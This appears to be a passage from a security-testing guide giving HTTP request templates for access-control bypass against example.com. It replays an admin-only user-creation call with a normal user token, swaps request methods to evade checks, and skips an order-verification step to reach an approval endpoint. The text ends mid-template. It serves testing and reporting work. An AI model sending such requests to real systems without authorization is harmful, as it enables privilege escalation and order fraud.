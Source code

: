## Exploitation & Reporting

### Exploitation Templates

#### Direct Function Access

```
# Original (authorized for admin)
POST /api/admin/createUser HTTP/1.1
Host: example.com
Authorization: Bearer [admin_token]
Content-Type: application/json

{
  "username": "newuser",
  "email": "user@example.com",
  "role": "user"
}

# Unauthorized attempt (with user token)
POST /api/admin/createUser HTTP/1.1
Host: example.com
Authorization: Bearer [user_token]
Content-Type: application/json

{
  "username": "newuser",
  "email": "user@example.com",
  "role": "user"
}
```

#### Method Manipulation

```
# Standard method (blocked)
POST /api/admin/users HTTP/1.1
Host: example.com
Authorization: Bearer [user_token]

# Try alternative method (might bypass checks)
GET /api/admin/users HTTP/1.1
Host: example.com
Authorization: Bearer [user_token]
```

#### Process Manipulation

```
# Step 1 (authorized)
POST /api/order/create HTTP/1.1
Host: example.com
Authorization: Bearer [user_token]
Content-Type: application/json

{
  "product_id": "123",
  "quantity": 1
}

# Response includes order_id
{"order_id": "ORD12345", "status": "created"}

# Step 3 (directly accessing approval, skipping verification)
POST /api/order/approve HTTP/1.1
```